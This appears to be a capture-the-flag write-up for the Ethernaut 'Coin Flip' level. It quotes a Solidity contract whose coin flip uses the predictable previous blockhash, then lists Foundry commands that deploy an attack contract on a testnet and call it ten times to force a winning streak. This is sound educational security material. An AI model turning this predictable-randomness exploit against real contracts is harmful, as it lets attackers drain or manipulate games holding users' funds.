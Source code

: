 ```yaml
---
title: "Coin Flip"
tags: ["Foundry"]
reference: 
---
```


# Description

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help

- See the "?" page above in the top right corner menu, section "Beyond the console"

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

# Solution

1. anyone can get the block number so that anyone can compute `coinFlip`

```
await getBlockNumber()
8903669
```

2. deploy `CoinFlipAttack.sol` on the same testnet using foundry

Code: [CoinFlipAttack.sol](lv_3/src/CoinFlipAttack.sol)

Find RPC from: https://chainlist.org/chain/11155111?

```
forge create src/CoinFlipAttack.sol:CoinFlipAttack --rpc-url=$BASE_SEPOLIA_RPC --account deployer --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Enter keystore password:
Deployer: 0xB1473Ba227C4645501E0e05f4839b00ED8320d33
Deployed to: 0x0Af3E0998033AA5d8B2aE22325251cDAC0ac0763
Transaction hash: 0x636815427d2bb4193b9c0b69fe981c590a5a330f9b3d2abe491bc1ec5168c59c
```


3. call the `guess` function 10 times

> Don't use `cast call`, `cast call` performs a static call, which means it simulates the function without changing state. So consecutiveWins++ will not persist.

```
cast send 0xd89C1a850e9cd663b550105799267BA17F3F1E2F "guess(address)" 0xcE8A02314E34Dd10a69eB2F0966497B1f917e7d9 --rpc-url $BASE_SEPOLIA_RPC --private-key
```

4. check the `consecutiveWins` variable

```
cast call 0xcE8A02314E34Dd10a69eB2F0966497B1f917e7d9 "consecutiveWins()(uint256)" --rpc-url $BASE_SEPOLIA_RPC
11
```
